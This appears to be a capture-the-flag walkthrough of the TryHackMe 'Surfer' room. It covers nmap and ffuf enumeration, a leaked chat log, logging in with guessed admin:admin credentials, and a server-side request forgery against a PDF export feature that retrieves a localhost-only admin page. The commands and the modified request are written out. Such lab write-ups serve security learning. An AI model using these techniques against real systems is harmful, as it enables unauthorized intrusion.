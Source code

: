 ```bash
# PLATFORM          . THM
# CTF NAME          . Surfer
# DESCRIPTION       . Surf some internal webpages to find the flag!
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/surfer
```

```bash
sudo nmap -sSVC -T5 -p- 10.10.174.63 -oN surfer
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0f2887472ed4d3655bc96a8e4e876d22 (RSA)
|   256 d1ae5306afe8039cfb58288163bd6098 (ECDSA)
|_  256 3720f5ddc5fbce1fd00ad7de0491dc91 (ED25519)

80/tcp open  http    Apache httpd 2.4.38 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/backup/chat.txt
| http-title: 24X7 System+
|_Requested resource was /login.php
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- We see that there's a disallowed entry in `/backup/chat.txt`

```
Admin: I have finished setting up the new export2pdf tool.
Kate: Thanks, we will require daily system reports in pdf format.
Admin: Yes, I am updated about that.
Kate: Have you finished adding the internal server.
Admin: Yes, it should be serving flag from now.
Kate: Also Don't forget to change the creds, plz stop using your username as password.
Kate: Hello.. ?
```

- We don't have access to `/backup` directory itself, so I've decided to leave a fuzzer to check for other endpoints.

```
ffuf -u http://10.10.174.63/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100
```

```
assets                  [Status: 301, Size: 313, Words: 20, Lines: 10]
vendor                  [Status: 301, Size: 313, Words: 20, Lines: 10]
backup                  [Status: 301, Size: 313, Words: 20, Lines: 10]
internal                [Status: 301, Size: 315, Words: 20, Lines: 10]
```

- We don't have access to any of them.

- On the main web page, we're shown a login form. Based on the `chat.txt` file, my first guess was `admin:admin`

- After getting in, on one of the panels, we see `Internal pages hosted at /internal/admin.php`

- Also, if we generate a PDF export, the server is `127.0.0.1`, which is local host.

- If we navigate to `http://10.10.174.63/internal/admin.php`, we're getting the following message

```
This page can only be accessed locally.
```

- I tried using `X-Forwarded-For` with `172.17.0.2` (shown as the Host IP in the dashboard) and `127.0.0.1` but no success.
- I tried using `X-Forwarded-For` via Burp Suite but I got the same result (as expected). 

- However, I was playing around and I realised that in the export, information is also read from `server-info.php`.

- We know that the flag is in `/internal/admin.php`. 

- I've captured the request in Burp Suite and modified the url to the "correct" value.

```
url=http%3A%2F%2F127.0.0.1%2Finternal%2Fadmin.php
```

- After that, a report is generated with our flag.

